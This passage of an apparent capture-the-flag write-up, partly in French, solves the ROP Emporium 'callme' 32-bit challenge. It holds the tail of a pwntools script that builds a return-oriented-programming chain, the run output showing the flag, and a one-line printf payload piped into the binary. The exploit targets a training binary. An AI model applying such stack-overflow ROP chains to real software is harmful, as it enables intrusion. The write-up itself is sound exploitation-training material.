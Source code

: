 ``` python
PL+=p32(0xcafebabe)
PL+=p32(0xd00df00d)

PL+=p32(callme_two)
PL+=p32(g_pop3ret)
PL+=p32(0xdeadbeef)
PL+=p32(0xcafebabe)
PL+=p32(0xd00df00d)

PL+=p32(callme_three)
PL+=p32(g_pop3ret)
PL+=p32(0xdeadbeef)
PL+=p32(0xcafebabe)
PL+=p32(0xd00df00d)

io.sendline(PL)
io.interactive()
```

### Execution

``` sh
ropemporium/x32/callme# python3 solve.py
[*] '/w/ropemporium/x32/callme/callme32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
[+] Starting local process '/w/ropemporium/x32/callme/callme32': pid 126
[*] callme_one=80484f0
[*] callme_two=8048550
[*] callme_three=80484e0

[*] Switching to interactive mode
[*] Process '/w/ropemporium/x32/callme/callme32' stopped with exit code 0 (pid 126)
callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}

```

Ou en shell :

``` sh
opemporium/x32/callme# printf "%44s\xf0\x84\x04\x08\xaa\x84\x04\x08\xef\xbe\xad\xde\xbe\xba\xfe\xca\x0d\xf0\x0d\xd0\x50\x85\x04\x08\xaa\x84\x04\x08\xef\xbe\xad\xde\xbe\xba\xfe\xca\x0d\xf0\x0d\xd0\xe0\x84\x04\x08\xaa\x84\x04\x08\xef\xbe\xad\xde\xbe\xba\xfe\xca\x0d\xf0\x0d\xd0" A|./callme32
callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}

```